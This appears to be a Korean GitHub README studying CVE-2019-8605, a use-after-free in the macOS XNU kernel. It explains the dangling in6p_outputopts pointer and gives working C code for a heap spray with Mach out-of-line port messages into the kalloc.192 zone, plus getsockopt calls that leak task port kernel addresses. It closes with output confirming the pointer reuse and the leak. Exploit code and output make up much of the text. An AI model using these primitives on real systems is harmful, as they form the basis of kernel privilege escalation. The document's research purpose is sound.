 # dangling_kptr_reuse (CVE-2019-8605)
## 환경
macOS 10.14.1 x86_64 ([net.siguza.hsp4.kext](https://github.com/Siguza/hsp4/tree/master) 필요)

## 설명 및 개념 증명
CVE-2019-8605 취약점에 대해 간략히 소개하자면,<br>
ip6_freepcbopts 함수를 통해 inp->in6p_outputopts가 해제되지만,<br>
NULL로 설정되지 않아 여전히 해제된 메모리 영역을 가리키고 있어 dangling 포인터가 됩니다.
```c
void in6_pcbdetach(struct inpcb *inp) {
    // ...
    if (!(so->so_flags & SOF_PCBCLEARING)) {
        struct ip_moptions *imo;
        struct ip6_moptions *im6o;

        inp->inp_vflag = 0;
        if (inp->in6p_options != NULL) {
            m_freem(inp->in6p_options);
            inp->in6p_options = NULL;   // <- 올바르게 NULL 처리 (GOOD)
        }
        ip6_freepcbopts(inp->in6p_outputopts);    // <- 해제만 함, NULL 처리X (BAD)
        // 매핑된 주소의 경우 IPv4 관련 리소스 해제
        ROUTE_RELEASE(&inp->in6p_route);
        if (inp->inp_options != NULL) {
            (void)m_free(inp->inp_options);        // <- 올바르게 NULL 처리, (GOOD)
            inp->inp_options = NULL;
        }
        // ...
    }
}
```
<br>
OOL 메시지는 XNU의 프로세스 간 통신(IPC) 메커니즘에 중요하게 쓰이기도 하며,

메시지를 수신하기 전까지 계속 커널 공간에 남아두게 만들 수 있는 특징이 있습니다.

이러한 OOL 메시지를 통해서 ipc_port 구조체의 커널 주소를 inp->in6p_outputopts에 할당하게끔 힙 스프레이를 수행합니다.

XNU에서의 커널 할당은 존(zone)이라는 일련의 영역을 사용합니다. 이러한 존은 특정 크기나 유형의 객체만을 포함하는 힙 메모리의 구역입니다. 예를 들어, kalloc.32 존은 크기가 32바이트 이하인 객체들을 포함하며, dangling되는 구조체 ip6_pktopts의 크기는 192이기에, kalloc.192라는 존에 속합니다.
따라서 아래 함수로 힙스프레이할 때, count 매개변수는 `192/sizeof(uint64_t)` 여야 합니다.
```
mach_port_t fill_kalloc_with_port_pointer(mach_port_t target_port, int count, int disposition) {
    mach_port_t q = MACH_PORT_NULL;
    kern_return_t err;
    err = mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &q);
    if (err != KERN_SUCCESS) {
        printf("[-] failed to allocate port\n");
        return 0;
    }

    mach_port_t* ports = malloc(sizeof(mach_port_t) * count);
    for (int i = 0; i < count; i++) {
        ports[i] = target_port;
    }
    
    struct ool_msg* msg = (struct ool_msg*)calloc(1, sizeof(struct ool_msg));
    
    msg->hdr.msgh_bits = MACH_MSGH_BITS_COMPLEX | MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    msg->hdr.msgh_size = (mach_msg_size_t)sizeof(struct ool_msg);
    msg->hdr.msgh_remote_port = q;
    msg->hdr.msgh_local_port = MACH_PORT_NULL;
    msg->hdr.msgh_id = 0x41414141;
    
    msg->body.msgh_descriptor_count = 1;
    
    msg->ool_ports.address = ports;
    msg->ool_ports.count = count;
    msg->ool_ports.deallocate = 0;
    msg->ool_ports.disposition = disposition;
    msg->ool_ports.type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
    msg->ool_ports.copy = MACH_MSG_PHYSICAL_COPY;
    
    err = mach_msg(&msg->hdr,
                   MACH_SEND_MSG|MACH_MSG_OPTION_NONE,
                   msg->hdr.msgh_size,
                   0,
                   MACH_PORT_NULL,
                   MACH_MSG_TIMEOUT_NONE,
                   MACH_PORT_NULL);
    
    if (err != KERN_SUCCESS) {
        printf("[-] failed to send message: %s\n", mach_error_string(err));
        return MACH_PORT_NULL;
    }
    
    return q;
}
```

힙 스프레이가 수행되면 커널에서 내부적으로 
```c
mach_msg_overwrite_trap 
-> ipc_kmsg_copyin 
-> ipc_kmsg_copyin_body 
-> ipc_kmsg_copyin_ool_ports_descriptor 
-> ipc_object_copyin 
-> ipc_right_lookup_write 
-> ipc_entry_lookup
```
함수가 순차적으로 호출됩니다.

여기서 `ipc_entry_lookup` 함수에 의해 Task Port의 커널 모드 주소로 변환해주기 때문에 아래와 같이 192바이트의 task port들이 스프레이됩니다.

```
ipc_entry_t
ipc_entry_lookup(
 ipc_space_t space,
 mach_port_name_t name)
{
 mach_port_index_t index;
 ipc_entry_t entry;
 index = MACH_PORT_INDEX(name);
 if (index < space->is_table_size) {
 entry = &space->is_table[index];
 ...
 }
 return entry;
}
```
- 스프레이된 task port 커널 주소들
```
[0xffffff80141cf040+0x000] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x010] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x020] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x030] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x040] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x050] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x060] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x070] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x080] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x090] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x0a0] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x0b0] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
```

댕글링되는 192바이트의 커널 구조체는 아래와 같으며, 
```c
struct ip6_pktopts {
    struct mbuf         *ip6po_m;
    int                  ip6po_hlim;
    **struct in6_pktinfo  *ip6po_pktinfo;**
    struct ip6po_nhinfo  ip6po_nhinfo;
    struct ip6_hbh      *ip6po_hbh;
    struct ip6_dest     *ip6po_dest1;
    struct ip6po_rhinfo  ip6po_rhinfo;
    struct ip6_dest     *ip6po_dest2;
    **int                  ip6po_tclass;**
    **int                  ip6po_minmtu;**
    **int                  ip6po_prefer_tempaddr;**
    int                  ip6po_flags;
};
```
이제 사용자 환경에서 `ip6po_minmtu, ip6po_prefer_tempaddr` 필드를 읽어옴으로써 task port leak이 가능합니다.
```
int get_minmtu(int sock, int *minmtu) {
    socklen_t size = sizeof(*minmtu);
    return getsockopt(sock, IPPROTO_IPV6, IPV6_USE_MIN_MTU, minmtu, &size);
}

int get_prefertempaddr(int sock, int *prefertempaddr) {
    socklen_t size = sizeof(*prefertempaddr);
    return getsockopt(sock, IPPROTO_IPV6, IPV6_PREFER_TEMPADDR, prefertempaddr, &size);
}
```

이렇게 dangling되는 커널 포인터를 재사용하여 leak시키는 방법에 대해 알아보았습니다.

이 레포지토리는 dangling 커널 포인터가 <b>실제로 재사용하는지</b>에 대해 알아봅니다.<br>
Siguza 개발자분의 hsp4 커널 확장을 사용하면, 별도의 취약점없이 커널 읽기/쓰기가 가능합니다.

socket 파일 디스크립터에서부터 할당된 192바이트의 ip6_pktopts 구조체 커널 주소를 가져올 수 있으며,<br>
ool ports 또한 ikmq_base, ikm_header 필드에 접근함으로써 할당된 192바이트의 mach_msg_ool_ports_descriptor_t의 address를 가져올 수 있습니다.

여기서 서로 address가 일치하면 dangling 포인터가 재사용되었다는 것을 의미합니다.






```
ret: 0x0, hsp4: 0xb03
kext_name: com.apple.kec.corecrypto
kext_addr_slid: 0xffffff7f890c7000
get_kbase ret: 0, kbase: 0xffffff8008200000, kslide: 0x8000000
[*] sock_fd: 3
[*] obtained dangling_kptr from socket_fd, 0xffffff80141cf040
[*] port_kaddr: 0xffffff801a1232a0
[*] ikmq_base: 0xffffff8019b96a00
[*] DANGLING KPTR REUSED!!!!!!
=============================
[0xffffff80141cf040+0x000] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x010] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x020] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x030] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x040] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x050] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x060] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x070] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x080] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x090] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x0a0] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x0b0] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
=============================
[*] our task port: 0xffffff801b68f150
```